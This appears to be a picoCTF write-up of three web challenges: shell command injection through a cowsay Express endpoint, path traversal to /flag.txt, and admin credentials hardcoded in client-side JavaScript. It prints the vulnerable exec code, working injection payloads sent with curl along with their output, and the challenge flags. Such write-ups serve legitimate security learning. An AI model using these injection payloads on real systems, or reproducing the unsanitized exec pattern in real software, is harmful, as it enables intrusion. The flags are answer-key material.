




# cass

**Flag:** `picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}`

We're given a [website](https://caas.mars.picoctf.net/) where we can enter a message and have it be output by cowsay. We're also given an `index.js` file with the following contents

```js
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
    exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
        if (error) return res.status(500).end();
        res.type('txt').send(stdout).end();
    });
});

app.listen(3000, () => {
    console.log('listening');
});
```

It turns out the service simply runs the `exec` command on whatever our message at the end of our url is. This is perfect for adding unwanted shell code. First, we inject `ls` to see the list of all the files in the home directory


```
~ $ curl "https://caas.mars.picoctf.net/cowsay/test;ls"
 ______
< test >
 ------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```

We find a file `falg.txt`, presumably containing the desired flag. Running `curl` once again, this time trying to output the contents of `falg.txt` using `cat`, we find that is indeed the case

```
~ $ curl "https://caas.mars.picoctf.net/cowsay/test;cat<falg.txt"
 ______
< test >
 ------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```

# Forbidden Paths

**Flag:** `picoCTF{7h3_p47h_70_5ucc355_e5a6fcbc}`

Here, the flag is given in the file `/flag.txt`, but absolute paths are not allowed to be entered. We know an nginx website is stored at `/usr/share/nginx/html/`, so we use relative file paths to traverse to the file.



Since we are four levels deep in the root directory, we use `../` four times.



So the flag turns out to be `picoCTF{7h3_p47h_70_5ucc355_e5a6fcbc}`.

# Local Authority

**Flag:** `picoCTF{j5_15_7r4n5p4r3n7_05df90c8}`

We are given a website `http://saturn.picoctf.net:50920/`, which opens to a login page.



We open our browser's network tab and enter meaningless data in the input fields. After that we open the request titled `secure.js` and go into its *Response* tab.





We find the following (very insecure!) JavaScript code that checks whether the username and password are that of the admin's or not

```js
function checkPassword(username, password)
{
  if( username === 'admin' && password === 'strongPassword098765' )
  {
    return true;
  }
  else
  {
    return false;
  }
}
```

Therefore, the username we need is `admin` and the password `strongPassword098765`. Using these details, we successfully log in and acquire the flag.


